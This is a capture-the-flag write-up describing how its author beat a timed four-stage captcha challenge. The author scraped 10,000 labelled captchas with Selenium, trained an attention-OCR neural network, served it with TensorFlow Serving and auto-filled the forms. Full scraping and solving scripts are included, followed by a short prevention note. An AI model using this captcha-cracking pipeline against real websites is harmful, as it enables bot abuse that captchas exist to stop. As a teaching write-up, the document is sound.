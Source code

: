 # First thoughts:
On opening the website there is the option to open the captcha site. There I have 30 seconds to input a captcha. If the captcha is right and the time hasn't run out, you get redirectd to the next captcha site where you have to input 3 more.
If the captcha gets input wrong or the time ran out I got redirected to a fail site where the correct captcha was printed out.

# The Exploit:
I knew that there where 4 stages of captchas I had to solve so I thought about automating it. My Idea was to use some kind of atrifical neural network to recognize the characters and input them to the site. To train such a network I needed a lot of trainig data. So data which has the captcha and the solutiun.
Luckily I could just download the captcha from the site and get the captchas label from the fail site. So I wrote a liitle python script which would dump me 10000 captchas save them in a file and note the filename together with the captcha label in a seperate file.
```python
import base64
from selenium import webdriver

driver = webdriver.Chrome()

labels = open("labels.txt", "w")


def get_images(url):
    
    driver.get(url)

    img = driver.find_element_by_tag_name('img')
    img_data = img.get_attribute("src")[22:].encode()

    buttons = driver.find_elements_by_tag_name('button')
    
    for btn in buttons:
        if btn.get_attribute("type") == "submit" and btn.text=="Next":
            btn.click()

            captchaLabel = driver.find_element_by_tag_name('b')

            filename = captchaLabel.text
            with open("captchas/" + filename + ".png", 'wb') as out_file:
                out_file.write(base64.decodebytes(img_data))

            labels.write(filename + '.png ' + filename + '\n')
            break    

if __name__ == '__main__':
    for i in range(0,10000):
        print("Done " + str(i))

        get_images('http://hax1.allesctf.net:9200/captcha/0')

    labels.close()
    driver.close()
```
After I extracted some data I took 10% of the downloaded files and put them in a diffrent file as test data. The rest is training data.
Then I used a tensorflow model from github called [attention ocr](https://github.com/emedvedev/attention-ocr). This model first runs a convolutional neural network on the imgae which splits the image into the characters. Then it uses a long short term momery network to predict the characters. (Note to intstall the attention ocr library you need python2 because the tensorflow 1.14 version is required)
Now I could use the model to create a trainig and testing datasets with the `aocr dataset <captcha-annotations> training.tfrecords` command. With the command `aocr train --max-prediction 16 --max-width 300 training.tfrecords` I could train the network. The 2 parameters `max-prediction` trains the model to have a maximum of 16 characters and the max-width parameter is used to tell the model the maximum width of the provided captchas. (I later found out that 300 was a bit to short but nevertheless it worked for me xD )
I let the model train for a night after that I tested the training data with the command `aocr test --max-prediction 16 --max-width 300 testing.tfrecords` and got a result of almost 100% accuracy for all the testing data. I also had the option to visualize how the model looks at the captcha ![predictionGIF](image.gif).
now that the model was trained I could export it with the `aocr export --max-prediction 16 --max-width 300` command and then start a docker container
```
sudo docker run -p 8501:8501 \                                                                                                                                               
  --mount type=bind,source=<directory>/exported-model/,target=/models/captcha \
  -e MODEL_NAME=captcha -t tensorflow/serving
```
Now I could send a message with curl to receive a prediction:
```
curl -X POST \
  http://localhost:8501/v1/models/captcha:predict \
  -H 'cache-control: no-cache' \
  -H 'content-type: application/json' \
  -d '{
  "signature_name": "serving_default",
  "inputs": {
     	"input": { "b64": "<your image encoded as base64>" }
  }
}'
```

The last step was to use python with selenium to read the captchas and input the right captchas.
```python
import base64
from selenium import webdriver
import requests
import os
import json
import time


driver = webdriver.Chrome()

headers = {
    'cache-control': 'no-cache',
    'content-type': 'application/json',
}

def solve_captcha(img_data):    
    data = '{\n  "signature_name": "serving_default",\n  "inputs": {\n     \t"input": { "b64": "' + img_data.decode("utf-8")  + '" }\n  }\n}'

    response = requests.post('http://localhost:8501/v1/models/captcha:predict', headers=headers, data=data).text

    y = json.loads(response)
    out = y["outputs"]
    print("Prob: " + str(out["probability"]) + " Guess: " + str(out["output"]))

    return out["output"]

def solve_0():
    time.sleep(0.5)
    img = driver.find_element_by_tag_name('img')
    img_data = img.get_attribute("src")[22:].encode()
    
    inp = driver.find_element_by_tag_name('input')
    inp.send_keys(solve_captcha(img_data))

    buttons = driver.find_elements_by_tag_name('button')
    
    for btn in buttons:
        if btn.get_attribute("type") == "submit" and btn.text=="Next":
            btn.click()

            break
    
def solve_1():
    time.sleep(0.5)
    imgs = driver.find_elements_by_tag_name('img')
    inps = driver.find_elements_by_tag_name('input')

    for i in range(0,3):
        img_data = imgs[i].get_attribute("src")[22:].encode()
        inps[i].send_keys(solve_captcha(img_data))

    buttons = driver.find_elements_by_tag_name('button')
    
    for btn in buttons:
        if btn.get_attribute("type") == "submit" and btn.text=="Next":
            btn.click()

            break

def solve_2():
    time.sleep(0.5)
    imgs = driver.find_elements_by_tag_name('img')
    inps = driver.find_elements_by_tag_name('input')


    for i in range(0,10):
        img_data = imgs[i].get_attribute("src")[22:].encode()
    
        inps[i].send_keys(solve_captcha(img_data))

    buttons = driver.find_elements_by_tag_name('button')
    
    for btn in buttons:
        if btn.get_attribute("type") == "submit" and btn.text=="Next":
            btn.click()

            break

def solve_3():
    time.sleep(0.2)
    imgs = driver.find_elements_by_tag_name('img')
    inps = driver.find_elements_by_tag_name('input')


    for i in range(0,100):
        img_data = imgs[i].get_attribute("src")[22:].encode()
    
        inps[i].send_keys(solve_captcha(img_data))

    buttons = driver.find_elements_by_tag_name('button')
    
    for btn in buttons:
        if btn.get_attribute("type") == "submit" and btn.text=="Next":
            btn.click()

            break
    

if __name__ == '__main__':
    driver.get('http://hax1.allesctf.net:9200/captcha/0')

    solve_0()
    solve_1()
    solve_2()
    solve_3()

    #driver.close()
```

# Prevention:
The problem with this site is that the captchas are very easy to crack for an atrifical neural network. Also it is much safer to use a software which is well known to work like reCAPTCHA.

